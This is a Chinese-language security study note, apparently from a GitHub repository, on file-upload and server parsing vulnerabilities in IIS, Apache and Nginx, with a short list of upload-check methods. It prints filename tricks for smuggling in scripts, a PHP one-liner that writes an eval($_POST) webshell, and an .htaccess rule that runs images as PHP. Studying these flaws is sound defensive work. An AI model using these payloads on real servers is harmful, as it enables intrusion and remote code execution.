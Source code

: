 # 文件上传&解析漏洞

# 文件解析漏洞

解析漏洞主要说的是一些特殊文件被iis、apache、nginx在某种情况下解释成脚本文件格式的漏洞

## IIS 5.x/6.0解析漏洞

IIS 6.0解析利用方法有两种
1. 目录解析
/xx.asp/xx.jpg

在网站下建立文件夹的名字为.asp、.asa的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件夹来解析并执行

例如创建目录cracer.asp，那么
/cracer.asp/1.jpg
将被当作asp文件来执行。假设还可以控制上传文件夹路径，就可以不管你上传后的图片改不改名都能拿shell了

2. 文件解析

cracer.asp;.jpg

第二种，在IIS6.0下，分号后面的不被解析，也就是说cracer.asp;,jpg会被服务器看成是wooyun.asp还有IIS6.0默认的可执行文件除了asp还包括这三种
/cracer.asa
/cracer.cer
/cracer.cdx

## Apache解析漏洞

Apache是从右到左开始判断解析，如果为不可识别解析，就再往左判断
比如cracer.php.owf.rar ".owf"和".rar"这两种后缀是apache不可识别解析，apache就会把cracer.php.owf.rar解析成php
如何判断是不是合法的后缀名就是这个漏洞的利用关键，测试时可以尝试上传一个cracer.php.rara.jpg.png...（把你知道的常见后缀都写上...）去测试是否是合法后缀
任意不识别的后缀，逐级向上识别

## IIS 7.0/IIS 7.5/Nginx < 8.03畸形解析漏洞

Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的
在默认Fast-CGI开启状况下，可以上传一个名字为cracer,jpg，内容为
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
的文件，然后访问cracer.jpg/.php，在这个目录下就会生成一句话木马 shell.php

www.xxx.com/logo.gif/*.php触发漏洞（有漏洞会把前面文件当作php执行）
X。asp00jieduan%jpg
a.aspx.a;a.aspx.jpg..jpg  第二种解析漏洞
或者直接上传xx.asp

## Nginx <8.03 空字节代码执行漏洞

影响版：0.5.，0.6。，0.7 《= 0.7.65，0.8 《= 0.8.37

Nginx在图片中嵌入PHP代码然后通过访问
XXX。jpg%00.php
来执行其中的代码

## htaccess文件解析

如果在Apache中.htaccess可被执行，且可被上传，那可以尝试在.htaccess中写入：
<FilesMatch "shell.jpg">SetHandler application/x-httpd-php</FilesMatch>

然后再上传shell.jpg的木马，这样shell.jpg就可解析为php文件

# 上传本地验证绕过

## 上传检测流程概述

通常一个文件以HTTP协议进行上传时，将以POST请求发送至web服务器web服务器接收到请求后并同意后，用户与web服务器将建立连接，并传输data

## 服务器命名规则

第一种类型：上传文件名和服务器命名一致
第二种类型：上传文件名和服务器命名不一致（随机，时间日期命名等）

## 常见的上传检测方式

1. 客户端javascript检测（通常为检测文件扩展名）
2. 服务端MIME类型检测（检测Content-Type内容）
3. 服务端目录路径检测（检测跟path参数相关的内容）
4. 服务端文件扩展名检测（检测跟文件extension相关的内容）
5. 服务端文件内容检测（检测内容是否合法后含有恶意代码）

